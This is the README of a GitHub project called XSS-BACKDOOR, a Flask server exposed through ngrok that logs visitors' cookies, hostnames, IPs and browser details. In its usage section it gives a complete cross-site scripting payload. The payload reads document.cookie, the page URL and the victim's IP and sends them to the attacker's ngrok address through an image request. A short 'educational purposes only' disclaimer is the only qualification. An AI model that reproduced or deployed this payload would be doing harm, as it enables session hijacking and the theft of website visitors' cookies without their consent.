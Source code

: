 # XSS-BACKDOOR

## Overview
XSS-BACKDOOR is a Flask-based web server that uses `ngrok` to expose a local server to the internet. It collects visitor information, including their user agent details, cookies, and Domain adress, and logs them in the console.

## Features
- Uses `Flask` to handle web requests.
- Uses `ngrok` to make the server accessible online.
- Parses user-agent data to identify device type, operating system, and browser.
- Captures and logs domain name and cookies.
- Injects a JavaScript payload to capture cookies from visitors.
- Displays information in a formatted and colorized console output.

## Requirements
Ensure you have the following dependencies installed:

```bash
pip install flask pyngrok colorama user-agents
```

## Setup and Usage
1. Clone this repository:
   ```bash
   git clone https://github.com/SenselessCore/XSS-Backdoor.git
   cd XSS-Backdoor
   ```
2. Run the script:
   ```bash
   python main.py
   ```
3. The script will generate an `ngrok` URL, which can be used to collect visitor information.
4. Payload URL:
   ```html
   <script>fetch("https://api.ipify.org?format=json").then(r=>r.json()).then(d=>d.ip).catch(()=>"_").then(ip=>{new Image().src="NGROK_URL/?"+document.cookie+"&host="+location.hostname+"&url="+encodeURIComponent(location.href)+"&ip="+ip})</script>

   ```
   Replace `NGROK_URL` with the actual `ngrok` link printed in the console.

## Disclaimer
This project is for educational purposes only. Unauthorized use of this software to collect sensitive information without consent is illegal and unethical. The author is not responsible for any misuse of this tool.

## License
GNU GPL v3 License. See [LICENSE](LICENSE) for more details.

